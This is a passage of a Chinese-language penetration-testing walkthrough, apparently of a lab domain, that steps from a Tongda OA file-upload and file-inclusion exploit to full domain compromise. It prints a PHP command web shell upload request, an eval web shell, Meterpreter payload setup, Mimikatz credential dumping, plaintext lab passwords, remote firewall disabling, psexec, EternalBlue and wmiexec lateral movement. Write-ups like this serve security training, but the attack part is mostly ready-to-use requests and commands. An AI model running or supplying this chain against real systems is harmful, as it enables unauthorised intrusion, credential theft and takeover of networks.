

成功

2.**未授权文件上传**

任意文件上传漏洞 /ispirit/im/upload.php

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 49.233.3.2:8888
Content-Length: 658
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```



**文件包含**

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.52.30:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../attach/im/2112/2050874393.jpg"}&cmd=whoami
```



### **上线Pc1**

方法一：
 在目标网站生成shell



**<?php fputs(fopen('../../shell.php','w'),'<?php @eval($_POST["test"])?>');?>**



#### **蚁剑连接**



#### 上线msf

```
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe > msf.exe
use exploit/multi/handler 
set payload windows/meterpreter/bind_tcp
set rhosts 192.168.52.30
set lport 4444
```



上线成功

### 第三层网络信息搜集

对新上线的主机信息搜集

```
ipconfig /all   # 查看本机ip，所在域
systeminfo      # 列出系统信息
route print     # 打印路由信息
net view        # 查看局域网内其他主机名
arp -a          # 查看arp缓存
whoami
net start       # 查看开启了哪些服务
net share       # 查看开启了哪些共享
 
net config workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 # 查看本机用户列表
net user /domain         # 查看域用户
net localgroup administrators   # 查看本地管理员组（通常会有域用户）
net view /domain         # 查看有几个域
net user 用户名 /domain   # 获取指定域用户的信息
net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
net group 组名 /domain    # 查看域中某工作组
net group "domain admins" /domain  # 查看域管理员的名字
net group "domain computers" /domain  # 查看域中的其他主机名
net group "domain controllers" /domain  # 查看域控制器（可能有多台）
```

 发现93网段

域为whoamianony.org

域控为DC.whoamianony.org，IP为192.168.93.30

域管理员Administrator

将该进程迁移到64的进程上

```
migrate +进程号（ps命令查看进程）
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```





抓到域用户bunny和管理员administrator的凭证

```
bunny：Bunny2021
administrator：Whoami2021
```

### 上线域控dc

关闭防火墙后利用模块上线：

```
shell
chcp 65001
net use \\192.168.93.30\ipc$ "Whoami2021" /user:"Administrator"
sc \\192.168.93.30 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"  
sc \\192.168.93.30 start unablefirewall
```



PSExec工具
使用PSExec前提：**SMB服务必须开启以及可达**。文件和打印机共享必须开启，禁止简单文件共享。
Admin$必须可以访问。PSExec使用的口令必须可以访问Admin$共享。
在PSExec可执行文件中含有一个Windows服务。它利用该服务并且在远端机器上部署Admin$。然后通过SMB使用DCE/RPC接口来访问Windows Service Control Manager API。然后在远程主机中开启PSExec访问。然后PSExec服务创建一个命名管道，用它来发送命令。
exploit/windows/smb/psexec
exploit在可执行文件中生成/嵌入一个payload，其本质是用过PSExec工具上传的一个服务image。然后exploit使用提供的口令来把服务可执行文件上传到Admin$中，连接到DEC/RPC接口，然后在告诉SCM启动我们部署的服务之前调用Service Control Manager。当服务启动后，创建一个rundll32.exe进程，在进程中分配可执行内存，然后把shellcode拷贝到进程中。然后调用内存地址，执行shellcode。
可执行文件由模板生成，可以由杀毒软件发现。

抓取到域管理员的密码了，直接psexec登陆

```
exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
set smbuser administrator
set smbpass Whoami2021
```



### 上线Pc2

```
这里可以直接打一波永恒之蓝

use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.93.40
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.40
set lport 4444
exploit                   
```



### wmiexec smb登录

wmi 出现在所有的 windows 操作系统中，由一组强大的工具集合组成，用于管理本地或远程的 windows 系统。攻击者使用 wmi 攻击时 windows 系统默认不会在日志中记录这些操作，可以做到无日志、攻击脚本无需写入到磁盘，增加了隐蔽性。

```
python3 wmiexec.py -debug 'administrator:Whoami2021@192.168.93.40'
```




